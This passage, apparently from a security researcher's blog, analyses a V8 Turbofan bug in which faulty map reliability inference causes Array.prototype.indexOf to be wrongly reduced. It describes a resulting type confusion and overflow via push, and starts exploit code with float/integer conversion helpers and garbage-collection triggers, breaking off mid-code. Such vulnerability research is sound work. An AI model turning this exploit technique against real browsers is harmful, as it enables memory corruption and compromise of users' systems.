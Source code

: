 <img src="https://raw.githubusercontent.com/manasghandat/manasghandat.github.io/master/assets/img/Images/2025-2135/1.png" alt="Turbofan CFG">

The first time code at [4] is triggered which does not contain the check for unreliable map. The next time, due to aliasing, both `receiver` and `object` are same triggering the code at [5] and causing the result value to return as `kReliableMaps`. Thus, `JSCallReducer::ReduceArrayIndexOf()` incorrectly reduces it to `ArrayIndexOfPackedDoubles()`

## Exploitation

In order to write the exploit we can call the Array prototype `push` which will push an element into the array. When we call `push`, turbofan infers that the array is of `PACKED_DOUBLE_ELEMENTS` and directly pushes the element as double while the actual array is of type `PACKED_ELEMENT`. This is a type confusion and leads to overflow since the size of element in array of type `PACKED_ELEMENT` is 4-bytes while that of `PACKED_DOUBLE_ELEMENTS` is 8-bytes.

### Attempt 1: Using Hole

Elements that are present in the array before it is converted to the type `PACKED_ELEMENT` will be converted from double elements that take 8-bytes into heap number type and the array will contain references to those heap number objects. Heap number type is a general type where the first field is that map which is followed by the actual value. These heap number elements are allocated just after the array. Below is sample code and its analysis:

```js
var buf = new ArrayBuffer(8); 
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { 
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
}

function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function gc_minor() {
  for (let i = 0; i < 1000; ++i) {
    new ArrayBuffer(0x10000);
  }
}

function gc_major() {
  new ArrayBuffer(0x7fe00000);
```